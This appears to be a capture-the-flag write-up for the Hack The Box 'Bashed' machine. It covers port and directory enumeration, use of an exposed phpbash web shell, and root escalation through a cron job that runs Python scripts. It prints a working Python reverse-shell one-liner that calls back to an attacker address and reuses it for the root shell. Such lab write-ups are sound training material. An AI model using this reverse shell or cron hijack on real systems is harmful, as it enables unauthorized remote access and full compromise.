 Title: HTB Bashed box writeup
Tags: oscp, htb
Summary: Walkthrough for this one
Date: 2020-09-01 15:00
Status: published

# Enumeration
Let's start with -sS all TCP range since we are not limited in traffic and not afraid of IDS:
<pre>
    Nmap 7.80 scan initiated Tue May 12 19:05:00 2020 as: nmap -sS -p- -oA enum/nmap-ss-t-all 10.10.10.68
    Nmap scan report for bashed.htb (10.10.10.68)
    Host is up (0.061s latency).
    Not shown: 65534 closed ports
    PORT   STATE SERVICE
    80/tcp open  http
    Nmap done at Tue May 12 19:06:30 2020 -- 1 IP address (1 host up) scanned in 90.26 seconds
</pre>
Not so much eh. I tried to run sU scan in the background and found nothing interesting. Looks like the webserver is
the way in. Spin up gobuster scan to find something interesting and while it's running let's go and see what's
interesting is there. Both `10.10.10.68` and `bashed.htb` which I added to `/etc/hosts`, leads to the same page
with some interesting info:

![phpbashed page](/cstatic/htb-bashed/phpbash-web.png)

There might be that shell somewhere in there. I also manually inspected source code of this page to try to find
some interesting details, but found only usual stuff like `/images` directory. At the time gobusted did his work:
<pre>
    /.htaccess (Status: 403)
    /.htpasswd (Status: 403)
    /css (Status: 301)
    /dev (Status: 301)
    /fonts (Status: 301)
    /images (Status: 301)
    /js (Status: 301)
    /php (Status: 301)
    /server-status (Status: 403)
    /uploads (Status: 301)
</pre>
`/dev` entry looks very promising, especially with the fact that blog admin stated that he was developing php shell
on this server. Indeed this dir is listable and there are some web phpbash shells in there:

![phpbash shell](/cstatic/htb-bashed/php-web-shell.png)

There is netcat on this box, but it was compiled w/o `-e` option. I tried to sent back bash revshell via `/dev/tcp`
but it seems that current user has no access to this subsystem, so I used python reverse shell oneliner instead:
```python
    import socket,subprocess,os
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("10.10.14.13",53))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(["/bin/bash", "-i"])
```
Just wrapped it in one line with semicolons and run it with `python3 -c`. Interactive unpriv shell:

![unpriv shell](/cstatic/htb-bashed/unpriv-shell.png)

# Privilege escalation
We could run sudo w/o password as scriptmanager:

![sudo scriptmanager](/cstatic/htb-bashed/sudo-l.png)

This user owns some interesting directory under root:

![scriptmanager dir](/cstatic/htb-bashed/scriptmanager-files.png)

There are only two files in this directory, one simple python  script and a txt file:

![scripts](/cstatic/htb-bashed/scripts.png)

Notice that while the `test.py` owned by scriptmanager:scriptmanager, `test.txt` is owned and
only writable by root. This is a direct hint that `test.py` might have been executing with
root privileges in some way, first thought was that there is a cron job that runs it. I found nothing
useful in cron folders, crontab file or `/var/log` so I've uploaded [pspy](https://github.com/DominicBreuker/pspy)
and my hypothesis turned out to be right:

![cron hit](/cstatic/htb-bashed/cron.png)

The job will run every `.py` file in `/scripts` so we could just reuse our reverse shell from
above to acquire root privileges:

![root shell](/cstatic/htb-bashed/root-shell.png)
